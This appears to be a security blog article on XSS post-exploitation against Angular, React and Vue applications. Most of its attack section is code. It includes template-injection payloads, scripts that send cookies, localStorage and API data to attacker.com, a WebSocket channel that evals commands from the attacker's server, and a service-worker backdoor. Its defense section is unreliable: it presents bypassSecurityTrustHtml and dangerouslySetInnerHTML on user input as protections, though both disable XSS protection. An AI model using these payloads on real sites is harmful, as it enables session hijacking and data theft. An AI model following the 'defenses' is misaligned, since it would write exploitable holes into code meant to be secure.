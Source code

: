 ```yaml
---
title: "XSS Post-Exploitation Techniques: From Framework Exploits to Session Hijacking"
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


Cross-Site Scripting (XSS) remains one of the most prevalent web security vulnerabilities, but understanding what happens after a successful XSS exploitation is crucial for both security professionals and developers. In this comprehensive guide, we'll dive deep into advanced XSS post-exploitation techniques, focusing on framework-specific exploits and sophisticated session hijacking methods.

## Understanding the Foundation of XSS Post-Exploitation

Before diving into advanced techniques, it's essential to understand that XSS post-exploitation is about maximizing the impact of an already successful XSS vulnerability. The goal is typically to:

- Maintain persistence in the compromised application
- Escalate privileges when possible
- Extract sensitive information
- Manipulate application functionality
- Pivot to other parts of the application or network

## Framework-Specific Exploits

### Modern Web Framework Vulnerabilities

**Angular-Specific Exploits:** Angular applications often present unique exploitation opportunities due to their template syntax. When targeting Angular applications, attackers can leverage template injection to execute arbitrary JavaScript:

```javascript
{{constructor.constructor('alert(1)')()}}
```

This payload exploits Angular's template compilation process, allowing direct JavaScript execution. More sophisticated attacks might include:

```javascript
{{$eval.constructor('fetch("/api/sensitive-data").then(r=>r.text()).then(d=>fetch("https://attacker.com?data="+d))')()}}
```

**React Framework Exploitation:**  
React applications are vulnerable to different types of attacks, particularly through `dangerouslySetInnerHTML`. A common post-exploitation technique involves targeting React's state management:

```javascript
React.__SECRET_INTERNALS_DO_NOT_USE_OR_YOU_WILL_BE_FIRED.ReactCurrentOwner.current
```

This can be used to access component internals and potentially modify application state.

**Vue.js Exploitation:**  
Vue.js applications can be exploited through template compilation vulnerabilities:

```javascript
new Vue({ template: `<div onclick='alert(1)'>Click me</div>` }).$mount('#app')
```

## Session Hijacking Methods

### Advanced Cookie Theft

Modern session hijacking goes beyond simple cookie theft. Here's a sophisticated approach:

```javascript
let stolenCookies = document.cookie;
let sessionData = { 
    cookies: stolenCookies, 
    localStorage: JSON.stringify(localStorage), 
    sessionStorage: JSON.stringify(sessionStorage), 
    userAgent: navigator.userAgent 
};
fetch('https://attacker.com/collect', { method: 'POST', body: JSON.stringify(sessionData) });
```

### Real-Time Session Riding

This technique involves maintaining an active connection to the attacker's server:

```javascript
const ws = new WebSocket('wss://attacker.com/control');
ws.onmessage = function(event) { 
    eval(event.data); 
};
```

### Advanced Session Fixation

Modern session fixation attacks can be combined with XSS to force specific session identifiers:

```javascript
document.cookie = "sessionId=controlled_session; path=/";
```

### Persistent Backdoors

Creating persistent access through service workers:

```javascript
navigator.serviceWorker.register('/evil-worker.js')
.then(registration => { 
    console.log('Backdoor installed'); 
});
```

## Defense Mechanisms and Mitigation

To protect against these advanced post-exploitation techniques:

### Content Security Policy (CSP)

Implement strict CSP headers:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com
```

### Session Security

Implement secure session management:

```javascript
// Server-side session configuration
session.cookie.httpOnly = true;
session.cookie.secure = true;
session.cookie.sameSite = 'strict';
```

### Framework-Specific Protections

**Angular:**

```typescript
import { DomSanitizer } from '@angular/platform-browser';

constructor(private sanitizer: DomSanitizer) { 
    // Sanitize potentially dangerous content
    this.safeContent = this.sanitizer.bypassSecurityTrustHtml(content); 
}
```

**React:**

```javascript
// Use React's built-in XSS protection
const dangerousHTML = { __html: userInput };
<div dangerouslySetInnerHTML={dangerousHTML} />;
```

### Monitoring and Detection

Implement client-side monitoring:

```javascript
// Monitor DOM modifications
const observer = new MutationObserver(mutations => { 
    mutations.forEach(mutation => { 
        // Check for suspicious DOM changes
        checkForMaliciousContent(mutation); 
    }); 
});
observer.observe(document.body, { childList: true, subtree: true });
```

## Conclusion

XSS post-exploitation techniques continue to evolve, becoming more sophisticated with modern web frameworks and technologies. Understanding these advanced techniques is crucial for security professionals to implement effective defenses. Regular security assessments, keeping frameworks updated, and implementing proper security headers remain essential practices in preventing successful XSS attacks and their post-exploitation impact.